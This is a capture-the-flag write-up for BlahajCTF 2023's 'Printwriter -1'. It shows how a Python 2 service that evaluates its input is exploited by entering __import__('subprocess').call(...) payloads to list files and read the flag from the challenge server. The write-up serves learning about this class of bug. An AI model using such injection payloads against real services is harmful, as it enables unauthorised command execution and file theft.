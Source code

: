 ```yaml
---
title: Printwriter -1
date: 2023-12-05
tags:
- misc
categories: BlahajCTF 2023
---
```


solved by {% person tomato %}

> I'm not very good at C, so I coded this challenge in Python. Don't have Python 3 yet though, so I used Python 2... At least it can't be pwned!

I first noticed that there is some template injection (? because like we aren't using any templates here, idk what to call it):


{% ccb html:true terminal:true %}
<DIV><SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">rwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN>~/ctf/blahaj<SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN> nc 188.166.197.31 30007
Print what? rwandi
How many times? 2*2
rwandi
rwandi
rwandi
rwandi</DIV>
{% endccb %}

So we can get shell simply with:
```py
__import__("subprocess").call()
```

{% ccb html:true terminal:true %}
<DIV><SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">rwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN>~/ctf/nightmare/Stack_Buffer_Overflow<SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN> nc 188.166.197.31 30007
Print what? rwandi
How many times? <span class="code-highlight">__import__("subprocess").call(["ls","-l"])</span>
total 8
<span class="code-highlight">-rw-r--r-- 1 root root  45 Dec  2 06:54 flag.txt</span>
-rwxr-xr-x 1 root root 267 Dec  2 06:54 run
Print what? rwandi
How many times? <span class="code-highlight">__import__("subprocess").call(["cat","flag.txt"])</span>
<span class="diff-highlight-add">blahaj{0uT_w17h_th3_N3W_4Nd_1N_w1tH_the_Old}</span></DIV>
{% endccb %}
